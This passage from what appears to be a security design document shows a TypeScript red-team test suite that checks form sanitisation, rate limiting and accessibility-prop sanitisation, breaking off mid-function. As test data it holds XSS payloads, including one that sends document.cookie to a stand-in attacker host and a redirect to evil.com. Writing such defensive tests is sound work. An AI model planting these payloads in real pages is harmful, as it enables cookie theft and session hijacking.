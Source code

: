 #### **4.2 Red Team Simulation Framework**

```typescript
// Simulated attack scenarios
const RED_TEAM_SCENARIOS = {
  // Scenario 1: Malicious form submission
  async testMaliciousFormSubmission() {
    const maliciousData = {
      title: '<script>window.location="http://evil.com"</script>',
      description: 'javascript:alert(document.cookie)',
      tags: ['<img src=x onerror=fetch("http://attacker.com/steal?data="+document.cookie)>']
    };
    
    // Test should sanitize all inputs
    const sanitized = sanitizeFormData(maliciousData);
    
    return {
      passed: !JSON.stringify(sanitized).includes('<script'),
      details: sanitized
    };
  },
  
  // Scenario 2: Rapid-fire requests (DoS)
  async testRateLimiting() {
    const promises = Array(20).fill(0).map(() => 
      fetch('/api/goals', { method: 'POST', body: '{}' })
    );
    
    const results = await Promise.allSettled(promises);
    const rejectedCount = results.filter(r => r.status === 'rejected').length;
    
    return {
      passed: rejectedCount > 10, // Should reject most rapid requests
      rejectedCount,
      details: 'Rate limiting should prevent DoS attacks'
    };
  },
  
  // Scenario 3: Accessibility exploitation
  async testAccessibilityExploitation() {
    const maliciousA11yProps = {
      accessibilityLabel: '<script>alert("screen reader exploit")</script>',
      accessibilityHint: 'javascript:steal_credentials()',
    };
    
    const sanitized = createSecureAccessibilityProps(
      maliciousA11yProps.accessibilityLabel,
      maliciousA11yProps.accessibilityHint
    );
    
    return {
      passed: !Object.values(sanitized).some(val => 
        typeof val === 'string' && (val.includes('<script') || val.includes('javascript:'))
      ),
      sanitized
    };
  }
} as const;

// Comprehensive red team test runner
const runRedTeamAudit = async (): Promise<RedTeamReport> => {
  const results: RedTeamResult[] = [];
  
  for (const [scenarioName, testFn] of Object.entries(RED_TEAM_SCENARIOS)) {
```